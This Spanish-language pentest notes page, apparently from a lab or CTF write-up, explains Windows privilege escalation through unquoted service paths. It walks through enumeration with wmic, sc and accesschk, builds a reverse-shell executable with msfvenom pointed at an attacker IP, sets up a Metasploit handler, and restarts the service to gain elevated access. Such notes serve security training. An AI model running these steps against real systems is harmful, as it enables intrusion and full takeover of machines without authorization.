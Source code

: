 # Unquoted service Path



#### Unquoted service Path (Ruta de srvicio Sin Comillas)

{% code overflow="wrap" %}
```
# Clave: Se busca un servicio cuya ruta de ejecución tenga espacios y NO tenga comillas. Ello lo hace más probable a la explotación.
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
Ej.
Correcto: "C:\\Program Files\\topservice folder\\subservice subfolder\\srvc.exe" #comillas
Correcto: C:\\Windows\\system32\\svchost.exe  #sin espacios
Vulnerable: C:\\Program Files\\topservice folder\\subservice subfolder\\srvc.exe #con espacio y sin comillas

En Windows, el servicio busca un ejecutable ".exe", por lo que Windows buscará y se detendrá en cada espacio para verificarlo:
C:\\Program.exe
C:\\Program Files\\topservice.exe
C:\\Program Files\\topservice folder\\subservice.exe
C:\\Program Files\\topservice folder\\subservice subfolder\\srvc.exe
# Vector: crear un ejecutiliz reverse shell con alguno de esos nombres de ejcutables y ubicarlo en alguno de esos mismos lugares para que el servicio ejecute nuestro exploit con privilegios y nos de máxima autoridad.

# Requisitos para explotación exitosa:
# 1. Tener permisos para poder escribir en aquellos directorios de las rutas.
# 2. Poder ser capaz de reiniciar el servicio.
# Si alguno de estos requisitos no se cumple, no es posible la explotación.

# Comando para ver los servicios que se están ejecutando el target
wmic service get name,displayname,pathname,startmode
# Verificar un servicio para ver más info
sc qc <servicio>

# Revisar los permisos en los subdirectorios de la ruta, buscando en cuál podemos escribir
# accesschk64.exe mostrará una lista de grupos de usuarios con privilegios de lectura (R) y escritura (W):
.\\accesschk64.exe /accepteula -uwdq "C:\\Program Files\\" #ej carpeta "Program Files"

# Crear ejecutable con la ruta que podemos escribir, y el nombre que necesitamos según lo que se va a buscar en la ruta.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[ATTACKER_IP] LPORT=[The Port to which the reverse shell will connect] -f exe > executable_name.exe
```
{% endcode %}

```bash
# Configurar un multihandler para atrapar la conexión
msf6 > use exploit/multi/handler
[*] Using configured payload windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set LPORT [ATTACKER_PORT_]
lport => [ATTACKER_PORT_]
msf6 exploit(multi/handler) > set LHOST [ATTACKER_IP]
lhost => [ATTACKER_IP]
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.6.195:8899
```

{% code overflow="wrap" %}
```bash
#Reiniciar el servicio
sc stop <servicio>
sc start <servicio>
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Para obtener reverse shell con privilegios tenemos que hacerlo con el servicio que llama con privilegios a las rutas buscando el dll. Verificamos que está detenido y lo reiniciamos al servicio: unquotedsvc.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Al ver el handler, vemos que ahora hemos ejecutado el servicio con privilegios superiores:

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>
